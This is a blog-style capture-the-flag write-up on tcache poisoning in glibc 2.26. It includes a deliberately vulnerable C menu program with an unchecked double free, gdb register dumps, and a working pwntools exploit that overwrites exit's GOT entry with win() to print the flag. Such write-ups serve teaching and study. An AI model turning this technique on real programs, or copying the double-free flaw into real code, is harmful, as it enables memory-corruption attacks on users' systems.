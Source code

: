 ```yaml
---
layout: post
title:  "Tcache Poisoning [heap exploitation]"
date:   2019-09-09 03:59:00
categories: experience
---
```



# Tcache Poisoning
what is tcache poisoning ? 
In glibc-2.26, TCache (per-thread cache), a new feature, was introduced in malloc.
and tcache poisoning is a technique to poison Tcache feature in glibc-2.26. for example from how2heap by shellpish team 

	This file demonstrates a simple tcache poisoning attack by tricking malloc into
	returning a pointer to an arbitrary location (in this case, the stack).
	The attack is very similar to fastbin corruption attack.

	The address we want malloc() to return is 0x7ffedaf11040.
	Allocating 1 buffer.
	malloc(128): 0x55a2b964b260
	Freeing the buffer...
	Now the tcache list has [ 0x55a2b964b260 ].
	We overwrite the first 8 bytes (fd/next pointer) of the data at 0x55a2b964b260
	to point to the location to control (0x7ffedaf11040).
	1st malloc(128): 0x55a2b964b260
	Now the tcache list has [ 0x7ffedaf11040 ].
	2nd malloc(128): 0x7ffedaf11040
	We got the control

for another example we will try to exploit this simple program by using tcache poisoning:

{% highlight c %}
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

#define SZ_BLOCK 200
#define SZ_HEAP  10
#define SZ_FLAG 100

char a[100];
u_int *(buf);

void win(){
	char buf[SZ_FLAG];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL){
		puts("[!] error code 901");
		exit(0);
	}
	fgets(buf,SZ_FLAG,f);
	puts(buf);
}

void welcome(){
puts("     __                      __                           _                      _              ");
puts("    / /_ _____ ____ _ _____ / /_   ___     ____   ____   (_)_____ ____   ____   (_)____   ____ _");
puts("   / __// ___// __ `// ___// __ \\ / _ \\   / __ \\ / __ \\ / // ___// __ \\ / __ \\ / // __ \\ / __ `/");
puts("  / /_ / /__ / /_/ // /__ / / / //  __/  / /_/ // /_/ // /(__  )/ /_/ // / / // // / / // /_/ / ");
puts("  \\__/ \\___/ \\__,_/ \\___//_/ /_/ \\___/  / .___/ \\____//_//____/ \\____//_/ /_//_//_/ /_/ \\__, /  ");
puts("       HackerClass Gunadarma @2019     /_/        author: arsalan (tripoloski)         /____/   ");
}

void menu(){
	puts("+---------------------+");
	puts("|         Menu        |");
	puts("+---------------------+");
	puts("| 1. allocate memory  |");
	puts("| 2. freeing memory   |");
	puts("| 3. exit             |");
	puts("+---------------------+");
	printf("| select [1-3] : ");
}

void init(){
	setvbuf(stdout, 0 , 2 , 0);
	setvbuf(stdin, 0 , 2 , 0);
}

void create_memory(){
	int size;
	printf("[?] size : ");
	//read(0,size , sizeof(size));
	scanf("%d" , &size);
	printf("[?] data : ");
	if (size <= 0x88){
		buf = malloc(size);
		read(0,buf , size);
	}
	puts("[+] memory allocated!");
}

void release_memory(){
	free(buf);
}

void main(){
	init();
	char buf[4];
	welcome();
	while(1){
		menu();
		read(0 , buf , sizeof(buf));
		switch(atoi(buf)){
			case 1:
				create_memory();
				break;
			case 2:
				release_memory();
				break;
			case 3:
				puts("[+] exiting...");
				exit(0);
				break;
			default:
				puts("[!] invalid choice error code 1902");
				break;
		}
	}
}
{% endhighlight %}


you can find this challenge on my repository [here](https://github.com/tripoloski1337/learn-to-pwn/tree/master/tcache_poisoning) in this case we have to allocating memory and double freeing , since there's no checks for double free on glibc-2.26+. so we can directly do double free, after that we can allocate memory and fill it with whatever we want. at this point we already controll the rdx register. 

	malloc(0x100)
	free(0)
	free(0)
	malloc(0x100) <------ control rdi
	malloc(0x100) <------ just a padding
	malloc(0x100) <------ another control 

### how can it be ?
if you look into gdb there's something interesting at address **<malloc+407>**

     → 0x7ffff7a7b207 <malloc+407>     mov    rdi, QWORD PTR [rdx]

this instruction will mov rdx value to rdi. it's mean it will move whatever value is from rdx to rdi register. and suddenly our rdx is filled with our input before

    $rax   : 0x5
    $rbx   : 0x64
    $rcx   : 0x0000000000602010  →  0x0000000000000000
    $rdx   : 0x4141414141414141 ("AAAAAAAA"?) <----- our input data from the seccond malloc
    $rsp   : 0x00007fffffffe320  →  0x0000000000400dd1  →  "+---------------------+"
    $rbp   : 0xffffffffffffffb0
    $rsi   : 0x0000000000602038  →  0x0000000000000000
    $rdi   : 0x64
    $rip   : 0x00007ffff7a7b207  →  <malloc+407> mov rdi, QWORD PTR [rdx]
    $r8    : 0xb
    $r9    : 0x0
    $r10   : 0x00007ffff7b82cc0  →  0x0002000200020002
    $r11   : 0x246
    $r12   : 0x0000000000400740  →  <_start+0> xor ebp, ebp
    $r13   : 0x00007fffffffe460  →  0x0000000000000001
    $r14   : 0x0
    $r15   : 0x0

in this case we can doing GOT overwrite from exit() function to win() function 

{% highlight c %}
	case 3:
		puts("[+] exiting...");
		exit(0); <-- our goal to change it to win()
		break;
{% endhighlight %}

to make it more clear and reliable i made a python script to exploit this binary 

{%highlight python%}

from pwn import *
r = process("./tcache_poisoning")

def alloc(size,data ):
	r.sendlineafter("| select [1-3] :","1")
	r.sendlineafter("[?] size :",str(size))
	r.sendlineafter("[?] data :",data)
	log.info("allocating")

def free():
	r.sendlineafter("| select [1-3] :","2")
	log.info("freeing")

win_plt = 0x0000000000400827
exit_got = 0x000000601348
#gdb.attach(r)
alloc(0x28,"A"*8)

free()
free()

alloc(0x28,p64(exit_got))
alloc(0x28,p8(0x00))
alloc(0x28,p64(win_plt)) 

r.interactive()

{% endhighlight %}

after running this python script we can select option 3 to trigger exit() and exit() is not the real exit() function anymore it was win() function since we doing GOT overwrite 

	[+] Starting local process './tcache_poisoning': pid 28800
	[*] allocating
	[*] allocating
	[*] freeing
	[*] freeing
	[*] allocating
	[*] allocating
	[*] allocating
	[*] Switching to interactive mode
	 [+] memory allocated!
	+---------------------+
	|         Menu        |
	+---------------------+
	| 1. allocate memory  |
	| 2. freeing memory   |
	| 3. exit             |
	+---------------------+
	| select [1-3] : $ 3
	[+] exiting...
	ctf{y0u_must_b3_a_pwnerrrr!!!!!}

as you can see there's string ***ctf{y0u_must_b3_a_pwnerrrr!!!!!}*** it mean our win() function has called and give us data from file flag.txt you can see what win() actually do here
{% highlight c %}
void win(){
	char buf[SZ_FLAG];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL){
		puts("[!] error code 901");
		exit(0);
	}
	fgets(buf,SZ_FLAG,f);
	puts(buf);
}
{% endhighlight %}